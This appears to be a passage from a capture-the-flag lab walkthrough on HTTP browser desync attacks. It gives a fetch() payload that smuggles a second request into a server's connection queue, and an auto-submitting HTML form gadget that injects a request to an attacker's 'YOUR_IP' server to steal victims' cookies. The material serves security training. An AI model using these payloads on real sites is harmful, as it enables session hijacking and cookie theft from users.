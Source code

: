 This consistent connection ID lies in its ability to facilitate exploitation for an attacker that could expose user information or session tokens such as cookies.

Moreover, in a cross-site attack, the browser shares user cookies based on how the `SameSite` flag is set (CORS), but this security rule doesn't apply if the current domain matches the remote one, as in Browser Desync attacks. In such cases, there's no restriction.&#x20;

You can hack your session by using the following payload from your browser command line.

```python
fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})
```

1. `http://MACHINE_IP:5000/`\
   This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.
2. `{ method: 'POST' }`The `method` parameter specifies the HTTP method for the request. Here, it's set to 'POST'.
3. `{ body: 'GET /redirect HTTP/1.1\r\nFoo: x' }` In the body, there is the second request that is going to be injected into the queue.
4. `{ mode: 'cors' }`This flag triggers an error when visiting the 404 web page and avoids following the redirect.

First, let’s start the Virtual Machine by pressing the Start Machine button at the top of this task. The vulnerable website will be running at the port 5000.&#x20;

Furthermore, this implies that an attacker can obtain complete control over a victim's browser when the specified payload is executed from the victim.

The following screenshots will show an example of the attack using the previous payload.

![Browser Desync Attack Vulnerable Redirect](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/d7b193c819734e10a561827cffcfd406.png)

The desync attack involves injecting an arbitrary request into the request HTTP queue. Upon refreshing the page, it redirects to the /redirect endpoint, leading to a 404 error page display since that route is not present.&#x20;

![Browser Desync Attack Connection Poisoned](https://tryhackme-images.s3.amazonaws.com/user-uploads/63c131e50a24c3005eb34678/room-content/6cab09b50ae05a0cb793992a74c82307.png)

## HTTP Browser Desync exploit chaining XSS

***

Based on the considerations outlined in previous tasks, one potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.\
Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.&#x20;

We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

```python
<form id="btn" action="http://challenge.thm/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```
